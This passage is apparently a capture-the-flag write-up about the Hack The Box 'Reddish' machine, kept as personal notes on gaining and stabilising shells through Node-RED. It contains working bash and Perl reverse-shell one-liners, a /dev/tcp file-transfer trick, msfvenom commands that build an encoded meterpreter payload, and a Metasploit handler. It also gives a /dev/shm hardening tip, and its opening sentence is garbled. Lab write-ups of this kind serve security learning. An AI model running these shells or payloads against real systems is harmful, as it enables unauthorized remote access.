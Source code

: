 First one and half is a half and then get two for the two is one reverse shell rule.
1. `bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'`
2. Perl is on the box:
```bash
perl -e 'use Socket;$i="10.10.14.123";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

[Reading 0xDF try various functionality of the NodeRed application](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#code-execution--shell-in-node-red), I decided that an additional beyond root would be to do the same and the highest goal being to try to create a proxy via the NodeRED. In the beyond root section I will outline a proxy and other stuff both 0xdf and atleast one idea if I do not complete a proxy.

As a Day <4 note to self: even though I like ncat and netcat, I am glad to finally be prompted to use it as a file transfer mechanism instead of other tools. Similar to trying out powercat it felt fun, but also gratting a tad as I always see it on Enumeration Script scans after I run it.. but I don't check its there before file transfering.

Checking whether I can run in memory on the box:
![](noexecshm.png)

After researching and making go compilation and doing some of [[Hololive-Writeup]]. With shell stability in mind after returning to this machine for the third time, although I will do it this way just for my own peace on mind after, I want recall proxychaining and using chisel to the port forward to scan the subset with nmap. If we had NC we could do port scanning like this: `nc -zv 172.18.0.1 1-65535`. One thing to consider is that the noexec flag has been set on /dev/shm 

![](noexeconshm.png)

[/dev/shm is a common directory for marshalling and operating from in Linux for attackers as it directory that is a tempory file storage that uses RAM for the backing store](https://superuser.com/questions/45342/when-should-i-use-dev-shm-and-when-should-i-use-tmp. It is flushed leaving no trace of execution or what was put in that directory. It is also faster as than disk storage. For hardening
```bash
# To check flags 
mount | grep shm 
# Mitigation
sudo mount -o remount,noexec /dev/shm
```

Ippsec's `cat` file transfer is OP. WOW on the cat file transfer, I have not seen this on any OSCP cheatsheets!
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /tmp/LinEnum.sh"
```

With the new and improved [Hacktools](https://github.com/LasCC/Hack-Tools) tried meterpreter https and the nice copy and paste workflow... 
```bash
# Initial shell from Node RED
nc -lvnp 8000
# call 
bash -c 'bash -i >& /dev/tcp/10.10.14.132/8002 0>&1' &
# Beware it does not auto update fields!
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=10.10.14.132 LPORT=4444 --platform linux -a x64 -n 200 -e cmd/generic_sh -i 4 -f elf -o rshell

msfconsole -qx "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter_reverse_https; set LHOST 10.10.14.123; set LPORT 4444; run"

nc -lvnp  9696 < met
# On Node RED:
bash -c "cat < /dev/tcp/10.10.14.132/9696 > /tmp/met"
# chmod and use nohup to persist after ctrl+c the shell to get it back again
chmod +x met
```